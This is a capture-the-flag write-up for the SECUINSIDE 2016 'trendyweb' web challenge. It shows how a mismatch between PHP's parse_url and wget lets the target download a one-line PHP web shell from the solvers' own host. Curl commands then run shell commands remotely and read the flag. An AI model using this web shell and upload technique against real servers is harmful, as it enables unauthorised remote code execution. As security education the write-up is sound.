 # SECUINSIDE 2016: trendyweb

## Challenge details
| Event | Challenge | Category | Points |
|:------|:----------|:---------|-------:|
| SECUINSIDE | trendyweb | Web | 100 (not granted because of time) |

### Description
> Trendy~! Web~
> The flag reader is on /.
>
> http://chal.cykor.kr:8082
> http://52.78.11.234:8082
>
> p.s.
> If the download doesn't work, try this:
> https://gist.github.com/Jinmo/e49dfef9b7325acb12566de3a7f88859
>
> and it requires data/ folder
> [index.php](index.php)

## Write-up
Upon inspecting [index.php](index.php) we clearly see there's some serialization
going on, but which peeked our initial interest. But when looking little further
we can see that the `download_image` function provides us with all we need:

```php
function download_image($url) {
  $url = parse_url($origUrl=$url);
  if(isset($url['scheme']) && $url['scheme'] == 'http')
    if($url['path'] == '/avatar.png') {
      system('/usr/bin/wget '.escapeshellarg($origUrl));
    }
}
```

Upon loading the page, at some point we see this function is called if
`POST['image']` is set:

```php
if(isset($_POST['image'])) download_image($_POST['image']);
```

So what does `download_image` actually do? As we can see it expects a URL, which
it then checks to be valid or not, by checking the `scheme` and `path` as
returned by php's `parse_url`. So let's see how 
[parse_url](http://php.net/manual/en/function.parse-url.php) actually works:

> ### Return Values
>
> On seriously malformed URLs, parse_url() may return FALSE.
>
> If the component parameter is omitted, an associative array is returned. At least one element will be present within the array. Potential keys within this array are:
>
>     scheme - e.g. http
>     host
>     port
>     user
>     pass
>     path
>     query - after the question mark ?
>     fragment - after the hashmark #
>
> If the component parameter is specified, parse_url() returns a string (or an integer, in the case of PHP_URL_PORT) instead of an array. If the requested component doesn't exist within the given URL, NULL will be returned.

This learns us that the querystring after `?` is not actually considered as a
part of the path. Which is logical, but conflicts in this case with wget's
behaviour. What happens is that wget **will** actually take the querystring into
account when saving the file, allowing us to exploit this function. First we
craft our malicious `avatar.png`:

```bash
$ echo "<?php system($_GET['cmd']); ?>" > avatar.png
```

Then we start a HTTP server (using `python3.5 -m http.server 8080` in our case), 
and verify it works as expected.

```bash
$ wget -q 127.0.0.1:8080/avatar.png?.php
$ ls avatar*
avatar.png  avatar.png?.php
```

Sweet, so let's get our malicious avatar onto the server, by making a POST request 
with the crafted url:

```bash
$ curl --data "image=http://smoke.leet.everyday/avatar.png?.php" http://chal.cykor.kr:8082

<img src="/data/5f390149ab1a4a8ed665/avatar.png" width=80 height=80 />
```

Our server logs verify the file has been requested by the target:
```bash
52.78.65.150 - - [10/Jul/2016 07:31:46] "GET /avatar.png?.php HTTP/1.1" 200 -
```

Sweet. Now let's see: (notice we URLencode the first `?` to `%3f`, to avoid it being
 interpreted as a premature start of the querystring, as well as the passed command):

```bash
$ curl http://chal.cykor.kr:8082/data/5f390149ab1a4a8ed665/avatar.png%3f.php?cmd=ls%20/
bin
boot
dev
etc
flag_is_heeeeeeeereeeeeee
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ curl "http://chal.cykor.kr:8082/data/5f390149ab1a4a8ed665/avatar.png%3f.php?cmd=cat%20/flag_is_heeeeeeeereeeeeee"
$
```

Nothing...? This had us wondering for a while, let's figure out what
`flag_is_heeeeeeeereeeeeee` actually is then...

```bash
$ curl "http://chal.cykor.kr:8082/data/5f390149ab1a4a8ed665/avatar.png%3f.php?cmd=ls%20-l%20/flag_is_heeeeeeeereeeeeee"
---x--x---. 1 root www-data 6172 Jul  9 08:26 /flag_is_heeeeeeeereeeeeee
```
### Solution
Ah, executable then, so let's run it, to finally get our flag:
```bash
curl "http://chal.cykor.kr:8082/data/5f390149ab1a4a8ed665/avatar.png%3f.php?cmd=/flag_is_heeeeeeeereeeeeee"
1-day is not trendy enough
```

### Looking back
Tadaa, the flag was `1-day is not trendy enough`. Now it would have been nice if
we were able around to start playing this CTF a little earlier on (logistics
fail on our side...), so we could have actually submitted the flag while the game
was still running. Maybe a prettier solution (and one that would have payed off if
poking around after getting a shell) than using curl here, would have been to 
write a small python script that would provide with an actual interactive shell
to play around with, by urlencoding our commands and crafting the querystring
automagically.

Ah well, funny little challenge and worth a writeup anyway.
